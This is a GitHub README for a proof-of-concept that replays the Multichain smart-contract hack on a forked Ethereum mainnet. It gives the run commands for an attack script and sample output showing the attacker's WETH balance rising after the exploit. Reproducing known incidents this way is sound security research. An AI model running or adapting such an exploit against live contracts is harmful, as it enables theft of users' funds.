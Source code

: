 # Multichain re-hack PoC

## How to run

Install nodejs/yarn first

Set up the `forking url` (in `hardhat.config.js`)

e.g. https://speedy-nodes-nyc.moralis.io/xxxxxxxxxxx/eth/mainnet/archive (
You need to apply for speedy-nodes from moralis.io)

Then run
```bash
yarn install
yarn hardhat run scripts/attack.js
```
You will see similar output later
```
Exploit contract deployed to: 0xab16A69A5a8c12C732e0DEFF4BE56A70bb64c926
WETH balance of attacker : 0.0
Exploiting... transcation:  0xc7e58e8da702e25e25fdc8370ab200347ff257466c0493a05885b40c6207f59b
Exploit complete.
WETH balance of attacker : 0.2
```
This means the attack is complete
> The block height of the fork is 14028473


## Link

* https://twitter.com/PeckShieldAlert/status/1483363515411099651
* https://www.tofreedom.me/multichain
